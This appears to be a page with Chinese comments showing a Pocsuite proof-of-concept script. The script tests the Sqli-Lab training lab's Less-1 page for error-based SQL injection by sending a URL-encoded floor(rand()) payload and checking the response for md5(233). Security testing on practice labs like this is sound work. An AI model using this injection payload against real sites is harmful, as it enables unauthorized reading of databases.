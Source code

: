 ```



```

---

# 基于 Pocsuite 框架
```
# -*- coding:utf-8 -*-
__author__ = 'jerry'



from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import urllib2


class Sqli_Lab_error_based_PoC(POCBase):
    vulID = '1'
    version = '1'
    author = ['jerry']
    vulDate = '2017-07-22'
    createDate = '2017-07-22'
    updateDate = '2017-07-22'
    references = ['none']
    name = 'Sqli_Lab_error_based SQL注入漏洞 POC'
    appPowerLink = 'http://www.xxx.cn/'
    appName = 'Sqli_Lab'
    appVersion = 'none'
    vulType = 'SQL Injection'
    desc = '''
           未对用户输入进行任何过滤,导致产生SQL注入。
           此注入为报错注入。输出md5(233)=e165421110ba03099a1c0393373c5b43,用这个值来进行验证.

    '''
    samples = ['']

    def _verify(self):
        result = {}
        target = self.url + "/Less-1/?id="

        url_data = "1%27%20and%20(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),(select%20md5(233)))name%20from%20information_schema.tables%20group%20by%20name)b)%20--+"
        full_url = target + url_data

        #发送get请求
        req = urllib2.Request(full_url)
        response = urllib2.urlopen(req)
        content = response.read()

        # 这个 e165421110ba03099a1c0393373c5b43 就是 md5(233) 的值
        if 'e165421110ba03099a1c0393373c5b43' in content:
            result = {'VerifyInfo': {}}
            result['VerifyInfo']['URL'] = target

        return self.parse_result(result)

    def _attack(self):
        return self._verify()

```